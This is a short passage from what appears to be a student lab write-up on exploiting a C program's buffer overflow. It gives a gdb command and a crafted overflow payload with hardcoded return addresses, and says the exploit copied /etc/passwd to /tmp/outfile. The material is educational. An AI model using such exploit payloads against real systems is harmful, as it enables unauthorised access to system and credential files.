 ## 7. Start the attack

Before the attack

<img alt="Screenshot" src="./img/task1/6.png">

The attack start

```
gdb -q vuln.out
```

```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x59\xdf\xff\xff')")
```

After that, we use the code below to read file we have just copied

```
cat /tmp/outfile
```

<img alt="Screenshot" src="./img/task1/7.png">

After attacking, we see that the asm program copy /etc/passwd to /tmp/outfile, not /tmp/pwfile

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.
